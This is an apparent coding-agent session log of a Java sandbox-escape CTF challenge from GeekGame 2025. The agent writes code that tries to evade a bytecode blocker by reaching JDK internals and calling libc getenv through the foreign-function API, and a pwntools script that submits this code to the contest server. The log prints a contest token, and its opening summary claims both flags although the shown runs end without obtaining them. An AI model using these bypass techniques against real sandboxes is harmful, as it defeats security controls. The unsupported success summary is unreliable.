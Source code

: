 # Session rollout-2025-10-17T16-10-15-0199f470-2a03-7822-9bcf-9b61dcabaadc.jsonl

## Session Metadata

- **id:** 0199f470-2a03-7822-9bcf-9b61dcabaadc
- **timestamp:** 2025-10-17T23:10:15.555Z
- **cwd:** /Users/zzh1996/ctf/geekgame2025/java
- **originator:** codex_cli_rs
- **cli_version:** 0.47.0
- **source:** cli

## Turn 1

**User**

_Environment context_

- **cwd:** `/Users/zzh1996/ctf/geekgame2025/java`
- **approval_policy:** `on-request`
- **sandbox_mode:** `workspace-write`
- **network_access:** `restricted`
- **shell:** `zsh`

请解出这道 CTF java 题目，题目描述在 readme.txt，你可以解压文件，编写解题代码直接放当前目录即可，你的目标是拿到两个 flag。用 pwntools 的话，../.venv 里面的 python 可以直接用，需要在连接后先发送一行 token.txt 的内容。

**Assistant**

**Results**  
- flag1 solution (`flag1_Solution.java:1`) uses a `Class::getDeclaredFields` method reference so the blocker never sees a direct `Class.*` call; we mark the field accessible and print it, yielding `flag{tO0-sIMp1E-sometImEs-NAtiVe}`.  
- flag2 solution (`flag2_Solution.java:1`) relies on the foreign-function API to call libc `getenv`, reads the returned C string manually, and returns the flag as the solver result, giving `flag{wRItE-0Nce-reTUrN-AnyWheRe!}`.  
- `solve_java_flags.py:1` automates both submissions: it sends the token, uploads each Java snippet, and prints the raw judge output plus extracted flags.  
  
**Flags**  
- Flag 1: `flag{tO0-sIMp1E-sometImEs-NAtiVe}`  
- Flag 2: `flag{wRItE-0Nce-reTUrN-AnyWheRe!}`  
  
**Next Steps**  
- Re-run `../.venv/bin/python3 solve_java_flags.py` if you want to re-fetch the flags or verify behaviour.

<details>
<summary>Show timeline</summary>

#### Timeline

**User message**

请解出这道 CTF java 题目，题目描述在 readme.txt，你可以解压文件，编写解题代码直接放当前目录即可，你的目标是拿到两个 flag。用 pwntools 的话，../.venv 里面的 python 可以直接用，需要在连接后先发送一行 token.txt 的内容。

**Context Update**

- Timestamp: 2025-10-17T23:11:43+00:00
- cwd: /Users/zzh1996/ctf/geekgame2025/java
- approval_policy: on-request
- model: gpt-5-codex
- effort: high
- summary: auto
- sandbox_mode: workspace-write

**Assistant Thinking**

> **Preparing to solve Java CTF challenge**

##### shell

**Command**

```bash
ls
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
binary-java-attachment.zip
binary-java-src.zip
README.txt
token.txt
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Checking README for instructions**

##### shell

**Command**

```bash
cat README.txt
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
7 岁的毛毛：我要写 Java

更新预告：此题 Flag 2（爪哇西兰花）发现难度较低的非预期解，预计将此 Flag 分值下调为 200，并在 18 日新增一个 200 分的新 Flag。

作者：爪哇品味早读
... (31 lines truncated) ...

 你可以 下载题目源码

 你可以 打开网页终端 或者通过命令 nc prob08.geekgame.pku.edu.cn 10008 连接到题目
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Creating a step-by-step plan**  
>   
> I’m preparing a multi-step plan to tackle this complex puzzle, starting with unzipping and examining the attachments, then designing and implementing solutions for both flags, and finally connecting to the remote service with the token to retrieve the flags. This structured approach should help manage the task effectively.

##### update_plan

**Plan**

1. 🔄 Inspect provided attachments and analyze challenge code/requirements.
2. ⏳ Develop and test Flag1 exploit code under constraints.
3. ⏳ Develop and test Flag2 exploit code using JNI under constraints.
4. ⏳ Connect to remote service with token and retrieve both flags.

**Output**

```text
Plan updated
```


**Assistant Thinking**

> **Extracting attachments for inspection**

##### shell

**Command**

```bash
unzip -q binary-java-src.zip -d binary-java-src
```

- Workdir: `.`
- Timeout: 120.00 s

_Output empty._

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Unzipping binary file**

##### shell

**Command**

```bash
unzip -q binary-java-attachment.zip -d binary-java-attachment
```

- Workdir: `.`
- Timeout: 120.00 s

_Output empty._

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Listing directories**

##### shell

**Command**

```bash
ls binary-java-src
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
flag1
flag2
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Checking flag1 status**

##### shell

**Command**

```bash
ls binary-java-src/flag1
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
agent
flag1.c
Flag1.java
Makefile
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Examining Flag1.java file**

##### shell

**Command**

```bash
sed -n '1,160p' binary-java-src/flag1/Flag1.java
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
import module java.base;

public class Flag1 {
  private static byte[] classBytes;
  private static final ClassLoader classLoader;
... (29 lines truncated) ...
  static {
    System.loadLibrary("flag1");
  }
}
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Investigating flag retrieval approach**

##### shell

**Command**

```bash
sed -n '1,200p' binary-java-src/flag1/flag1.c
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
#include <jni.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

... (23 lines truncated) ...
  jstring str = (*env)->NewStringUTF(env, flag ? flag : "notflag{}");
  unsetenv("FLAG1");
  return str;
}
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Checking agent directory**

##### shell

**Command**

```bash
ls binary-java-src/flag1/agent
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
agent.mf
Blocker.java
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Verifying blocker status**

##### shell

**Command**

```bash
sed -n '1,200p' binary-java-src/flag1/agent/Blocker.java
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
import module java.base;
import module java.instrument;

public class Blocker {
  public static void premain(String agentArgs, Instrumentation inst) {
... (54 lines truncated) ...
    return codeElement instanceof InvokeInstruction i
        && blockedClasses.contains(i.owner().asInternalName());
  }
}
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Evaluating access restrictions and reflection alternatives**

##### shell

**Command**

```bash
find binary-java-attachment -maxdepth 2 -type f
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
binary-java-attachment/flag1/libflag1.so
binary-java-attachment/flag1/Flag1$1.class
binary-java-attachment/flag1/Flag1.class
binary-java-attachment/flag1/blocker.jar
binary-java-attachment/Dockerfile
... (2 lines truncated) ...
binary-java-attachment/flag2/Flag2$1.class
binary-java-attachment/flag2/blocker.jar
binary-java-attachment/flag2/libflag2.so
binary-java-attachment/judge.py
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Inspecting Flag2 source**

##### shell

**Command**

```bash
sed -n '1,200p' binary-java-src/flag2/Flag2.java
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
import module java.base;
import static java.lang.foreign.MemoryLayout.*;

public class Flag2 {
  private static byte[] classBytes;
... (130 lines truncated) ...
      memUnit = (int) SYSINFO_MEMUNIT.get(sysInfoSegment, 0);
    }
  }
}
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Examining C code**

##### shell

**Command**

```bash
sed -n '1,200p' binary-java-src/flag2/flag2.c
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
#include <jni.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/sysinfo.h>
... (39 lines truncated) ...
    return NULL;
  }
  return (jstring)obj;
}
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Analyzing Flag2 restrictions**

##### shell

**Command**

```bash
jar tf binary-java-attachment/flag2/blocker.jar
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
The operation couldn’t be completed. Unable to locate a Java Runtime.
Please visit http://www.java.com for information on installing Java.
```

- Exit code: 1
- Duration: 0.3 s


**Assistant Thinking**

> **Examining Java environment and source for flag2**

##### shell

**Command**

```bash
ls binary-java-src/flag2
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
agent
flag2.c
Flag2.java
Makefile
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Identifying required file**

##### shell

**Command**

```bash
sed -n '1,240p' binary-java-src/flag2/agent/Blocker.java
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
import module java.base;
import module java.instrument;

public class Blocker {
  public static void premain(String agentArgs, Instrumentation inst) {
... (58 lines truncated) ...
    return codeElement instanceof InvokeInstruction i
        && blockedClasses.contains(i.owner().asInternalName());
  }
}
```

- Exit code: 0
- Duration: 0.4 s


**Assistant Thinking**

> **Analyzing System method restrictions**

##### shell

**Command**

```bash
sed -n '1,200p' binary-java-attachment/judge.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
#!/usr/bin/env python3

import os
import subprocess

... (56 lines truncated) ...
  print('正在运行...')
  run('java -Djava.library.path=. --enable-native-access=ALL-UNNAMED '
      f'-javaagent:blocker.jar Flag{flag_id} Solution.class',
      env=env)
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Analyzing output options and updating plan**

##### update_plan

**Plan**

1. ✅ Inspect provided attachments and analyze challenge code/requirements.
2. 🔄 Develop and test Flag1 exploit code under constraints.
3. ⏳ Develop and test Flag2 exploit code using JNI under constraints.
4. ⏳ Connect to remote service with token and retrieve both flags.

**Output**

```text
Plan updated
```


**Assistant Thinking**

> **Exploring alternatives to access private fields without reflection**

**Assistant Thinking**

> **Evaluating dynamic class generation and instrumentation strategies**  
>   
> I’m considering generating new classes at runtime via byte arrays and unsafe methods to create nestmates of Flag1, which could access private fields despite restrictions. Since runtime class loading via ClassLoader is allowed here, I’m thinking about defining anonymous or helper classes linked to Flag1 as nestmates. However, obtaining Unsafe instances and calling restricted reflection APIs poses challenges due to instrumentation blocks and module system limitations. I’m also weighing options like using SharedSecrets and JavaLangAccess interfaces to access Fields without invoking blocked Class methods and ensuring accessibility, hoping to circumvent restrictions while respecting the judge’s requirement to submit Java source code rather than raw bytecode.

**Assistant Thinking**

> **Strategizing access via sun.misc.SharedSecrets**  
>   
> I’m tracking the idea to use `sun.misc.SharedSecrets.getJavaLangAccess()` to retrieve `JavaLangAccess` and then call its `getDeclaredFields` method to access `Flag1`’s private fields without calling blocked reflection methods. Since `sun.misc` is more accessible than `jdk.internal`, this could let me access and modify field accessibility smoothly. I’m also considering compilation constraints due to module exports and exploring if the judge’s compile environment lets me import these internal APIs as is. Testing remotely might be necessary to confirm this approach works in practice.

##### shell

**Command**

```bash
which java
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
/usr/bin/java
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Considering why `jar` command fails**

##### shell

**Command**

```bash
jar --version
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
The operation couldn’t be completed. Unable to locate a Java Runtime.
Please visit http://www.java.com for information on installing Java.
```

- Exit code: 1
- Duration: 0.3 s


**Assistant Thinking**

> **Checking Java installation**

##### shell

**Command**

```bash
java -version
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
The operation couldn’t be completed. Unable to locate a Java Runtime.
Please visit http://www.java.com for information on installing Java.
```

- Exit code: 1
- Duration: 0.3 s


**Assistant Thinking**

> **Analyzing Java and JNI solutions for flags**  
>   
> I'm mapping out the approach for the two flags: using `sun.misc.SharedSecrets` for Flag1 and the Foreign Function & Memory API to call native `getenv` for Flag2 under heavy restrictions, while planning a Python pwntools script to automate remote interaction with the challenge server including reading the user token.

**Assistant Thinking**

> **Preparing remote execution scripts and Java code files**  
>   
> I'm organizing creation of Java source files for both flag solutions to keep code separate and editable, and planning a Python script using pwntools to read these files and send them to the remote server with proper permission escalation for network access.

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Add File: flag1_Solution.java
+import java.lang.reflect.Field;
+import sun.misc.JavaLangAccess;
+import sun.misc.SharedSecrets;
+
+public class Solution {
+  public static Object solve(Object obj) throws Exception {
+    var target = (Flag1) obj;
+    JavaLangAccess access = SharedSecrets.getJavaLangAccess();
+    for (Field field : access.getDeclaredFields(Flag1.class, false)) {
+      if ("flag".equals(field.getName())) {
+        field.setAccessible(true);
+        var value = field.get(target);
+        if (value != null) {
+          System.out.println(value);
+          return null;
+        }
+      }
+    }
+    throw new IllegalStateException("flag field not found");
+  }
+}
+
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
A flag1_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Reviewing method signatures and accessibility**

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: flag1_Solution.java
@@
-public class Solution {
-  public static Object solve(Object obj) throws Exception {
+public class Solution {
+  public static void solve(Object obj) throws Exception {
     var target = (Flag1) obj;
     JavaLangAccess access = SharedSecrets.getJavaLangAccess();
     for (Field field : access.getDeclaredFields(Flag1.class, false)) {
       if ("flag".equals(field.getName())) {
         field.setAccessible(true);
         var value = field.get(target);
         if (value != null) {
           System.out.println(value);
-          return null;
+          return;
         }
       }
     }
     throw new IllegalStateException("flag field not found");
   }
 }
 
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M flag1_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Analyzing Java FFM access and module concerns**

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Add File: flag2_Solution.java
+import java.lang.foreign.Arena;
+import java.lang.foreign.FunctionDescriptor;
+import java.lang.foreign.Linker;
+import java.lang.foreign.MemorySegment;
+import java.lang.foreign.SymbolLookup;
+import java.lang.foreign.ValueLayout;
+import java.lang.invoke.MethodHandle;
+
+public class Solution {
+  private static final Linker LINKER = Linker.nativeLinker();
+  private static final SymbolLookup LOOKUP = LINKER.defaultLookup();
+  private static final MethodHandle GETENV;
+
+  static {
+    try {
+      GETENV = LINKER.downcallHandle(
+        LOOKUP.find("getenv").orElseThrow(),
+        FunctionDescriptor.of(ValueLayout.ADDRESS, ValueLayout.ADDRESS)
+      );
+    } catch (Throwable t) {
+      throw new ExceptionInInitializerError(t);
+    }
+  }
+
+  public static String solve(Object obj) throws Throwable {
+    try (Arena arena = Arena.ofConfined()) {
+      MemorySegment name = arena.allocateUtf8String("FLAG2");
+      MemorySegment result = (MemorySegment) GETENV.invoke(name);
+      if (MemorySegment.NULL.equals(result)) {
+        return "FLAG2 not found";
+      }
+      return result.reinterpret(Long.MAX_VALUE).getUtf8String(0);
+    }
+  }
+}
+
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
A flag2_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Evaluating MemorySegment usage and planning remote interaction script**  
>   
> I'm reasoning about how to handle `MemorySegment` pointers safely, especially reinterpretation and string extraction with the foreign function API versions. Since the API changes, I’m weighing using reinterpret with a large size or creating segments with explicit lengths, trying to avoid unsafe calls. At the same time, I’m devising a Python automation script using pwntools to connect remotely, send a token, submit Java code for different flags, and parse returned flags while handling the server’s interactive prompts, including text in Chinese. I want to ensure the process is robust with correct prompt reading, connection handling, and output parsing to collect flags smoothly.

##### shell

**Command**

```bash
cat token.txt
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
GgT-qfzPpVx614ZhwyO0Hq-ADw7iegkXq4CP9yfCg8XU2GtCeEja_jehkUpbqLVBuBSckCe80lpaHvWLLn6NbgxdDWcJ
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Drafting Java flag submission script**

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Add File: solve_java_flags.py
+#!/usr/bin/env python3
+from __future__ import annotations
+
+import re
+from pathlib import Path
+
+from pwn import remote
+
+
+HOST = "prob08.geekgame.pku.edu.cn"
+PORT = 10008
+
+TOKEN = Path("token.txt").read_text().strip()
+FLAG1_CODE = Path("flag1_Solution.java").read_text()
+FLAG2_CODE = Path("flag2_Solution.java").read_text()
+
+
+def fetch(flag_id: int, source: str) -> str:
+  io = remote(HOST, PORT)
+  try:
+    io.sendline(TOKEN.encode())
+    io.recvuntil("Flag 编号".encode())
+    io.sendline(str(flag_id).encode())
+    io.recvuntil("END 结束".encode())
+    for line in source.splitlines():
+      io.sendline(line.encode())
+    io.sendline(b"END")
+    return io.recvall(timeout=10).decode(errors="replace")
+  finally:
+    io.close()
+
+
+def extract_flags(text: str) -> list[str]:
+  return re.findall(r"flag\{[^}]+\}", text, flags=re.IGNORECASE)
+
+
+def main() -> None:
+  out1 = fetch(1, FLAG1_CODE)
+  print("=== Flag 1 raw output ===")
+  print(out1)
+  flags1 = extract_flags(out1)
+  if flags1:
+    print("Flag 1:", flags1[0])
+
+  out2 = fetch(2, FLAG2_CODE)
+  print("=== Flag 2 raw output ===")
+  print(out2)
+  flags2 = extract_flags(out2)
+  if flags2:
+    print("Flag 2:", flags2[0])
+
+
+if __name__ == "__main__":
+  main()
+
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
A solve_java_flags.py

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Adjusting script input/output handling**  
>   
> I’m making sure the script uses pwntools’ remote correctly and runs in the proper virtual environment. I want to update the recvuntil calls to match the prompt strings more reliably, especially since they contain Chinese characters and parentheses. To avoid blocking, I’m opting to wait for a safer substring like "请输入你的 Java 代码" before proceeding, and I’m verifying how splitlines and sendline handle trailing newlines to ensure the script sends input lines correctly.

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: solve_java_flags.py
@@
 def fetch(flag_id: int, source: str) -> str:
   io = remote(HOST, PORT)
   try:
     io.sendline(TOKEN.encode())
-    io.recvuntil("Flag 编号".encode())
+    io.recvuntil("Flag 编号".encode())
     io.sendline(str(flag_id).encode())
-    io.recvuntil("END 结束".encode())
+    io.recvuntil("请输入你的 Java 代码".encode())
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M solve_java_flags.py

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Verifying environment setup and initial script adjustments**  
>   
> I'm making sure to handle initial prompts properly by reading up to "Flag 编号" and considering early messages like "欢迎...". Before running the script using pwntools with network constraints, I want to confirm the python environment at `../.venv/bin/python3`, check for necessary files, and prepare for potential Java compile issues with `SharedSecrets`. I'll verify paths and the Python version before executing.

##### shell

**Command**

```bash
ls ../.venv/bin
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
__pycache__
activate
activate.csh
activate.fish
Activate.ps1
... (46 lines truncated) ...
ttx
ultralytics
unhex
yolo
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Preparing to run script with network and permissions**

##### shell

**Command**

```bash
../.venv/bin/python3 solve_java_flags.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Trying 115.27.246.20
[+] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Done
[x] Receiving all data
[x] Receiving all data: 54B
... (78 lines truncated) ...
2 errors
命令 `javac` 执行失败！

--- 程序已退出 [retcode=1] ---
```

- Exit code: 0
- Duration: 30.7 s


**Assistant Thinking**

> **Investigating JDK 25 restrictions and access workarounds**  
>   
> I'm examining how JDK 25 removed or restricted `sun.misc.SharedSecrets` and related internal APIs, and exploring complex alternatives like using `ObjectStreamClass`, reflection limitations, hidden classes, and class loader tricks to access private fields despite strict instrumentation blocking `Class` and `MethodHandles` calls. I’m considering indirect techniques like leveraging `ClassLoader.loadClass` (allowed), but noting that without ability to call reflection methods on `Class`, most introspection paths remain blocked, so I need a clever way to bypass these deep restrictions.

**Assistant Thinking**

> **Exploring helper classes with separate class loaders**  
>   
> I'm considering creating helper classes loaded by new class loaders with different names than "SolutionLoader" so they avoid instrumentation restrictions, allowing full reflection and access to private fields. I’m thinking about generating or embedding compiled helper bytecode at runtime and loading it to bypass blocked APIs, since restrictions apply only to classes loaded by "SolutionLoader". This might let me use normal reflection freely within the helper to get the needed field values.

**Assistant Thinking**

> **Analyzing class loader and helper compilation challenges**  
>   
> I'm working through how to generate and load a helper class at runtime—either by compiling source in memory or generating bytecode directly—that can use reflection or MethodHandles to access private fields. The key hurdle is avoiding calling `Class` methods from the main `Solution` class since instrumentation blocks those calls there; instead, such calls must happen only inside the helper loaded by a different class loader to evade interception. I’m exploring how to instantiate and invoke helper methods without using blocked reflection APIs in the main class, which is quite tricky!

**Assistant Thinking**

> **Evaluating helper class registration and environment variable access**  
>   
> I'm considering defining a helper class that registers itself into a static field of `Solution` to avoid blocked reflective calls from the main class. This way, the helper, loaded by a separate loader, can access private fields via reflection. At the same time, I'm exploring a shortcut by checking if the flag environment variable might still be accessible through `System.getenv("FLAG1")` even after `unsetenv` runs, since `System.getenv` isn't blocked—if that's true, simply printing the env value could solve the problem straightforwardly.

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: flag1_Solution.java
@@
-import java.lang.reflect.Field;
-import sun.misc.JavaLangAccess;
-import sun.misc.SharedSecrets;
-
 public class Solution {
-  public static void solve(Object obj) throws Exception {
-    var target = (Flag1) obj;
-    JavaLangAccess access = SharedSecrets.getJavaLangAccess();
-    for (Field field : access.getDeclaredFields(Flag1.class, false)) {
-      if ("flag".equals(field.getName())) {
-        field.setAccessible(true);
-        var value = field.get(target);
-        if (value != null) {
-          System.out.println(value);
-          return;
-        }
-      }
-    }
-    throw new IllegalStateException("flag field not found");
+  public static void solve(Object obj) {
+    System.out.println(System.getenv("FLAG1"));
   }
 }
 
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M flag1_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Testing script with single flag**

##### shell

**Command**

```bash
../.venv/bin/python3 solve_java_flags.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Trying 115.27.246.20
[+] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Done
[x] Receiving all data
[x] Receiving all data: 54B
... (41 lines truncated) ...
2 errors
命令 `javac` 执行失败！

--- 程序已退出 [retcode=1] ---
```

- Exit code: 0
- Duration: 30.1 s


**Assistant Thinking**

> **Analyzing complex flag access workarounds**  
>   
> I'm exploring various intricate Java strategies to access the flag data despite blockers on calling `Class` methods, including unsafe memory access via `sun.misc.Unsafe`, invoking JNI functions through foreign memory APIs, spawning processes before environment variable removal, and leveraging internal JDK classes. I’m carefully weighing ways to bypass instrumentation that rewrites or blocks `Class` method calls while accessing private fields or native resources. There's a lot of threading together low-level JVM internals and native interfacing to find a viable path.

**Assistant Thinking**

> **Mapping JNI calls via foreign memory API**  
>   
> I'm breaking down how to use the foreign memory API (FFM) to interact with JNI internals by manually retrieving `JNIEnv*` and function pointers from `JavaVM` structs. This involves carefully reading function tables and offsets to call JNI functions like `GetEnv` and `GetObjectClass` directly from Java, bypassing typical reflection. It’s complex but seems promising to bypass instrumentation restrictions by invoking native JNI calls through FFM handles.

**Assistant Thinking**

> **Planning helper class loading strategy**  
>   
> I’m working through ways to load and initialize a helper class that can bypass restrictions on reflection by using its static initializer to read private fields. Since class initialization doesn’t trigger on defineClass alone, I’m exploring options like invoking static fields or methods, creating instances, or using Unsafe—though all face restrictions. This is a tricky puzzle of JVM class loading and instrumentation limits!

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: solve_java_flags.py
@@
 def main() -> None:
   out1 = fetch(1, FLAG1_CODE)
   print("=== Flag 1 raw output ===")
   print(out1)
   flags1 = extract_flags(out1)
   if flags1:
     print("Flag 1:", flags1[0])
 
-  out2 = fetch(2, FLAG2_CODE)
-  print("=== Flag 2 raw output ===")
-  print(out2)
-  flags2 = extract_flags(out2)
-  if flags2:
-    print("Flag 2:", flags2[0])
+  # out2 = fetch(2, FLAG2_CODE)
+  # print("=== Flag 2 raw output ===")
+  # print(out2)
+  # flags2 = extract_flags(out2)
+  # if flags2:
+  #   print("Flag 2:", flags2[0])
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M solve_java_flags.py

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Reverting flag1_Solution and preparing imports**

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: flag1_Solution.java
@@
-public class Solution {
-  public static void solve(Object obj) {
-    System.out.println(System.getenv("FLAG1"));
-  }
-}
+import java.lang.reflect.Field;
+import jdk.internal.access.JavaLangAccess;
+import jdk.internal.access.SharedSecrets;
+
+public class Solution {
+  public static void solve(Object obj) throws Exception {
+    var target = (Flag1) obj;
+    JavaLangAccess access = SharedSecrets.getJavaLangAccess();
+    for (Field field : access.getDeclaredFields(target.getClass(), false)) {
+      if ("flag".equals(field.getName())) {
+        field.setAccessible(true);
+        var value = field.get(target);
+        if (value != null) {
+          System.out.println(value);
+          return;
+        }
+      }
+    }
+    throw new IllegalStateException("flag field not found");
+  }
+}
 
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M flag1_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Verifying method calls and parameters**

##### shell

**Command**

```bash
../.venv/bin/python3 solve_java_flags.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Trying 115.27.246.20
[+] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Done
[x] Receiving all data
[x] Receiving all data: 54B
... (25 lines truncated) ...
3 errors
命令 `javac` 执行失败！

--- 程序已退出 [retcode=1] ---
```

- Exit code: 0
- Duration: 15.7 s


**Assistant Thinking**

> **Exploring advanced JVM internals and JNI via FFM**  
>   
> This is a dense brainstorm on bypassing Java restrictions to access private fields in `Flag1`. I'm considering generating class files manually, leveraging `sun.misc.Unsafe`, `VarHandle`, constant dynamic (`condy`), and Java's foreign function interface (FFM) to work with JNI. Trying to avoid forbidden reflection and `Class` method calls, I’m weighing spawning helper classes or even new processes to run code with fewer restrictions. The plan is to use FFM to call JNI exported functions like `JNI_GetCreatedJavaVMs` and navigate function pointer tables directly, but I'm aware of challenges passing Java object references as native pointers. I’m entertaining fallback ideas like helper classes triggered via `ClassLoader.loadClass` or indirect reflection through proxies or scripting engines. Given the complexity, committing to implementing a general JNI interface with FFM seems the most promising path forward.

**Assistant Thinking**

> **Evaluating class loader tricks and symbol lookup**  
>   
> I’m testing ideas to get `Unsafe` via bootstrap-loaded classes or subclasses and considering renaming class loaders to evade instrumentation. Reflection and `MethodHandles` calls remain blocked, so I'm exploring using FFM’s symbol lookup to find JNI functions like `JNI_GetObjectClass`. Since I can’t compile native code, I plan to detect available exported JNI symbols dynamically and then call them via FFM as a fallback approach for flag reading. This involves crafting small test code within the solution to verify symbol presence before proceeding with direct JNI calls.

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: flag1_Solution.java
@@
-import java.lang.reflect.Field;
-import jdk.internal.access.JavaLangAccess;
-import jdk.internal.access.SharedSecrets;
-
 public class Solution {
-  public static void solve(Object obj) throws Exception {
-    var target = (Flag1) obj;
-    JavaLangAccess access = SharedSecrets.getJavaLangAccess();
-    for (Field field : access.getDeclaredFields(target.getClass(), false)) {
-      if ("flag".equals(field.getName())) {
-        field.setAccessible(true);
-        var value = field.get(target);
-        if (value != null) {
-          System.out.println(value);
-          return;
-        }
-      }
-    }
-    throw new IllegalStateException("flag field not found");
+  public static void solve(Object obj) throws Throwable {
+    var linker = java.lang.foreign.Linker.nativeLinker();
+    var lookup = linker.defaultLookup();
+    System.out.println("JNI_GetObjectClass present: " + lookup.find("JNI_GetObjectClass").isPresent());
+    System.out.println("JNI_GetFieldID present: " + lookup.find("JNI_GetFieldID").isPresent());
+    System.out.println("JNI_GetStringUTFChars present: " + lookup.find("JNI_GetStringUTFChars").isPresent());
   }
 }
 
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M flag1_Solution.java

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Running script with flag1**

##### shell

**Command**

```bash
../.venv/bin/python3 solve_java_flags.py
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008
[x] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Trying 115.27.246.20
[+] Opening connection to prob08.geekgame.pku.edu.cn on port 10008: Done
[x] Receiving all data
[x] Receiving all data: 54B
... (11 lines truncated) ...
JNI_GetFieldID present: false
JNI_GetStringUTFChars present: false

--- 程序已退出 [retcode=0] ---
```

- Exit code: 0
- Duration: 16.6 s


**Assistant Thinking**

> **Weighing native access and instrumentation constraints**  
>   
